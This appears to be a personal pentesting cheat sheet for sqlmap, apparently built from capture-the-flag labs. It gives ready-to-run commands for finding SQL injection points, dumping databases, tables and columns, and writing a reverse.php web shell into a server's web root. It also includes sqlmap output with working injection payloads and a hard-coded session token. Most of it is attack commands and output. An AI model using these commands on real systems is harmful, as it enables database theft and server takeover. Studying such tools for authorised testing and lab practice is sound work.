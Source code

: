 ```yaml
---
title: Sqlmap 🪲
---
```

- Useful commands

```shell
sqlmap http://10.10.134.119/admin?user=3 --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3MDc1NzM3Mzh9.EQ-QxUbiFb5WYxEP6e8izPs_r4iGouEevWSjuhE1ZaM' --technique=U --delay=2 -dump
```

- Command with a request with no query params on url:
	- First, copy the request captured with Burp to a file
	- Then:

```shell
sqlmap -r request.txt

# Then do
sqlmap -r request.txt --dbs

# Attack the database you want

sqlmap -r request.txt -D <TABLE_NAME> --tables --dump

# a more complete command
sqlmap -r request.txt -p 'email' --dbms=mysql --level=3 --risk=3 --batch --technique=BUT --dbs --dump --threads 3
```

---

## Get a reverse shell with slqmap:

```shell
sqlmap -r request.txt --dbs --file-dest=/var/www/html/reverse.php --file-write=./reverse.php
```

- Now open open your browser: `http://IP_HOST/reverse.php`

---
## Display databases when performing a successful attack

If you got a successful payload, then do this:
- Extract databases by adding `--dbs` to the original attack:
	- Just say `y` and will load the previous results.

```shell
sqlmap -u 'http://domain.com/path' -H 'X-Forwarded-For: YOUR_IP*' --risk 3 --level 5 --dbms MySQL --dbs

# Output may be like:
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:27:40] [INFO] fetching database names
[22:27:40] [INFO] fetching number of databases
[22:27:40] [INFO] retrieved: 2
[22:27:42] [INFO] retrieved: informati
on_schema
[22:28:47] [INFO] retrieved: sqhell_1
available databases [2]:
[*] information_schema
[*] sqhell_1
```

- Now that you know the databases, get the tables of the one you are interested:

```shell
sqlmap -u 'http://domain.com/path' -H 'X-Forwarded-For: YOUR_IP*' --risk 3 --level 5 --dbms MySQL -D DATBASE_NAME --tables

# Output may be like:
[22:31:23] [INFO] retrieved: 
[22:31:28] [INFO] adjusting time delay to 1 second due to good response times
flag
[22:31:41] [INFO] retrieved: hits
Database: sqhell_1
[2 tables]
+------+
| flag |
| hits |
+------+
```

- Now list columns of a database table:

```shell
sqlmap -u 'http://domain.com/path' -H 'X-Forwarded-For: YOUR_IP*' --risk 3 --level 5 --dbms MySQL -D DATBASE_NAME -T TABLE --columns

# Output may be like:
[22:33:58] [INFO] retrieved: 
[22:34:03] [INFO] adjusting time delay to 1 second due to good response times
id
[22:34:09] [INFO] retrieved: int
[22:34:21] [INFO] retrieved: flag
[22:34:35] [INFO] retrieved: varchar(250)
Database: sqhell_1
Table: flag
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(250) |
| id     | int          |
+--------+--------------+
```

- Now dump it the table's column:

```shell
sqlmap -u 'http://domain.com/path' -H 'X-Forwarded-For: YOUR_IP*' --risk 3 --level 5 --dbms MySQL -D DATBASE_NAME -T TABLE -C COLUMN --dump

# Output may be like:

[22:36:07] [INFO] adjusting time delay to 1 second due to good response times
THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}
Database: sqhell_1
Table: flag
[1 entry]
+---------------------------------------------+
| flag                                        |
+---------------------------------------------+
| XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX |
+---------------------------------------------+
```

## Register forms

```shell
sqlmap -u 'http://domain.com/register/user-check?username=gitblanc' -p username --risk 3 --level 5 --dbms MySQL

# Output may be like:
[22:53:35] [INFO] checking if the injection point on GET parameter 'username' is a false positive
GET parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 468 HTTP(s) requests:
---
Parameter: username (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-3381' OR 3435=3435-- ihVx

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=gitblanc' AND (SELECT 8410 FROM (SELECT(SLEEP(5)))sPpn)-- xphf
---
```

- Then you can try to obtain databases by adding at the end `--dbs`
- Then obtain tables by adding `-D DATBASE_NAME --tables` replacing `--dbs`
- Then obtain columns by adding `-T TABLE --columns` replacing `--tables`
- Then dump a columns by adding `-C COLUMN --dump` replacing `--columns`

## URL parameters

- If you find something like: `http://10.10.115.157/user?id=1`
- Try this:

```shell
sqlmap -u 'http://10.10.115.157/user?id=1' -p id --risk 3 --level 5 --dbms MySQL

# Output may be like:
[23:02:27] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3835=3835

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5327 FROM (SELECT(SLEEP(5)))tHWS)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-4293 UNION ALL SELECT CONCAT(0x7162787171,0x5648626b46674875456f46496a4c746c5a4e4462736575774246467a477a70414d655351486f546e,0x717a707671),NULL,NULL-- -
---

```